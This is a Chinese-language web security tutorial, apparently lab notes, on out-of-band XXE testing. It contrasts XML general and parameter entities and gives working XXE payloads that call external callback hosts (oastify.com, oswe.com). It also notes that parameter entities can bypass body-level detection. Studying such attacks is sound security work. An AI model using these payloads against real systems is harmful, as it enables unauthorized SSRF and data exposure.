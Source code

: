 # 使用参数实体带外测试

如果 WEB 应用程序的输入校验或 XML 解析器的强化导致常规实体的 XXE 攻击被阻止，可以尝试 XML 参数实体的 XXE 攻击。

**常规实体与参数实体的区别**

- 语法差异：
  - 常规实体：`<!ENTITY myentity "value">`，引用用`&myentity;`
  - 参数实体：`<!ENTITY % myparam "value">`，引用用`%myparam;`
- 作用域限制：
  - 参数实体只能在DTD内部使用（包括内部子集和外部DTD）
  - 常规实体在XML文档内容部分中使用

如下案例：

使用参数实体带外。

```
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://www.oswe.com/pikachu/"> %xxe;]>
<user>
  <name>Alice</name>
  <email>nihao</email>
</user>
```

![image-20250417210202482](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417210202482.png)

当你把它改为通用实体时，会报错，因为解析器不支持他在 dtd 内应用（通用实体在 xml 文档内容部分使用）。

![image-20250417210405961](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417210405961.png)

这也算参数实体的一种优势吧，能在引入 dtd 阶段就进行展开，相比于常规实体，它展开的更早，不依赖 xml 文档内容进行注入。例如常规实体必须在如下位置进行利用：

```
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://www.oswe.com/pikachu/"> %xxe;]>       <-- 参数实体利用位置
<user>
  <name>常规实体利用位置</name>
  <email>常规实体利用位置</email>
</user>

# 而且如果目标对 xml 正文有检测的话，参数实体一定程度上能绕过检测。
```

### 常规带外测试

可以看到进行如下攻击只给个提示不回显数据。但是此情况下，没有对参数进行校验，只是不回显数据，在参数内引用通用实体仍然会触发 ssrf。

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>10000001</productId><storeId>100000001</storeId></stockCheck>
```

![image-20250416171938349](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416171938349.png)

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://f6msdym6qiznm92r72tnoot0mrsigc41.oastify.com"> ]>
<stockCheck><productId>1</productId><storeId>&xxe;</storeId></stockCheck>
											^^^^^^^
										  常规实体利用位置：位于 xml 正文
```

### 使用参数实体带外测试

适用于后端程序对所给参数进行校验，导致无法从参数进行攻击，只能在 DTD 内部进行 ssrf 攻击的场景。

payload

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "https://3dh7vgbtma2ziyd62n0eg92oyf46swgl.oastify.com"> %xxe;]>
																							  ^^^^^^^^
																						参数实体利用位置：位于 dtd 内部
```

![image-20250417160911074](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417160911074.png)
